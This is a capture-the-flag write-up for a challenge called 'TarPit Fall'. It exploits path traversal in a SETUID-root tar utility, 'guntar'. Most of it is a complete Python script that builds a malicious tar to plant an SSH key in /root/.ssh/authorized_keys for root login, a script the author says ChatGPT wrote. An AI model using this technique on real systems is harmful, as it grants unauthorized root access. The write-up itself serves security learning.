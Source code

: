 # TarPit Fall
By @thelkdo

In this challenge you were provided a system with Guntar installed. Exploring around, no flag can be found. We assume it must be in the inaccesible `/root` directory.

By checking the system we find that guntar has SETUID.

Exploring guntar, it has features to explore and extract tar-files. Because of the SETUID bit, all files extracted will be written as root.

By creating a malicious-tar file with path traversal, it is possible to make guntar write a file anywhere as root. Since we're connected to the machine over SSH, lets inject a `authorized_keys` file into roots `.ssh` folder. 

I had ChatGPT write this python script to create the malicious tar-file.

```python
#!/usr/bin/env python
"""
SSH Key Injection Exploit for Guntar Path Traversal

Since guntar runs with SETUID root, we can write to /root/.ssh/authorized_keys!

Strategy:
1. Generate an SSH key pair (or use existing)
2. Create a tar with path traversal to /root/.ssh/
3. Include our public key in authorized_keys
4. SSH in as root: ssh -i private_key root@target
5. Read the flag: cat /root/flag.txt
"""

import tarfile
import io
import os
import subprocess

def create_ssh_exploit():
    """
    Create a tar file that writes our SSH public key to /root/.ssh/authorized_keys
    """

    print("[*] SSH Key Injection Exploit for Guntar")
    print("="*70)

    # Check if we have an existing SSH key, or generate one
    ssh_key_path = os.path.expanduser("~/.ssh/id_rsa.pub")

    if os.path.exists(ssh_key_path):
        print(f"[+] Found existing SSH public key: {ssh_key_path}")
        with open(ssh_key_path, 'rb') as f:
            public_key = f.read()
        print(f"[+] Using existing key")
    else:
        print("[!] No SSH key found. Generating one...")
        print("[*] Run: ssh-keygen -t rsa -b 4096 -f ./exploit_key -N ''")
        subprocess.run(['ssh-keygen', '-t', 'rsa', '-b', '4096', '-f', './exploit_key', '-N', ''])
        with open('./exploit_key.pub', 'rb') as f:
            public_key = f.read()
        print(f"[+] Generated new key pair: ./exploit_key and ./exploit_key.pub")

    print(f"[+] Public key content:\n{public_key.decode().strip()}")

    # Create the exploit tar file
    tar_filename = "exploit_ssh.tar"

    with tarfile.open(tar_filename, "w") as tar:
        # Add root directory (required by guntar)
        root_info = tarfile.TarInfo(name="./")
        root_info.type = tarfile.DIRTYPE
        root_info.mode = 0o755
        tar.addfile(root_info)

        # Path traversal to /root/.ssh/
        # From ./extracted, we need to traverse up to reach /root
        # Assuming we're in /home/user/somedir:
        # ./extracted/../../../../root/.ssh -> /home/user/somedir/extracted/../../../../root/.ssh
        # This should resolve to /root/.ssh

        ssh_parent_path = "../../../../root/.ssh"

        # Add all parent directories
        # We need: ../../../../root/ and ../../../../root/.ssh/

        # First level: ../
        for i in range(1, 5):
            dir_path = "../" * i
            dir_info = tarfile.TarInfo(name=dir_path.rstrip('/') + "/")
            dir_info.type = tarfile.DIRTYPE
            dir_info.mode = 0o755
            tar.addfile(dir_info)

        # Add ../../../../root/
        root_dir = tarfile.TarInfo(name="../../../../root/")
        root_dir.type = tarfile.DIRTYPE
        root_dir.mode = 0o700
        tar.addfile(root_dir)

        # Add ../../../../root/.ssh/
        ssh_dir = tarfile.TarInfo(name=ssh_parent_path + "/")
        ssh_dir.type = tarfile.DIRTYPE
        ssh_dir.mode = 0o700
        tar.addfile(ssh_dir)

        # Add the authorized_keys file with our public key
        auth_keys_info = tarfile.TarInfo(name=ssh_parent_path + "/authorized_keys")
        auth_keys_info.type = tarfile.REGTYPE
        auth_keys_info.size = len(public_key)
        auth_keys_info.mode = 0o600  # Important: correct permissions for SSH
        tar.addfile(auth_keys_info, io.BytesIO(public_key))

        print(f"\n[+] Created {tar_filename}")
        print(f"[*] This will write to: /root/.ssh/authorized_keys")

    # Verify tar contents
    print(f"\n[*] Tar contents:")
    with tarfile.open(tar_filename, "r") as tar:
        for member in tar.getmembers():
            print(f"    {member.name} (type: {member.type}, mode: {oct(member.mode)})")

    print("\n" + "="*70)
    print("EXPLOITATION STEPS:")
    print("="*70)
    print("1. Transfer exploit_ssh.tar to the target system")
    print("2. Run: ./guntar extract exploit_ssh.tar")
    print("3. SSH as root:")
    if os.path.exists(ssh_key_path):
        print(f"   ssh -i ~/.ssh/id_rsa root@<target_ip>")
    else:
        print(f"   ssh -i ./exploit_key root@<target_ip>")
    print("4. Read the flag:")
    print("   cat /root/flag.txt")
    print("="*70)

if __name__ == "__main__":
    create_ssh_exploit()
```

From there, we can simply use the generated ssh-keys to login as root!

